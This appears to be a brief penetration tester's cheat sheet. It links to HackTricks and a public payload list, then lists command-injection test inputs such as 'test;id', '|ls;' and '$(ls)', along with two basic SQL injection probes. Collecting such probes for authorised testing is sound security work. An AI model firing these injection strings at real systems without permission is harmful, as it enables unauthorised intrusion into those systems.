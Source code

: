 
https://book.hacktricks.xyz/pentesting-web/pocs-and-polygloths-cheatsheet
https://book.hacktricks.xyz/pentesting-web/command-injection
https://github.com/payloadbox/command-injection-payload-list
### command injection

test;id
test|id
|

;ls
||ls;
|ls;
&&ls;
&ls;
%0Als
`ls`
$(ls)



### SQLi

'--
test' and'a'='b






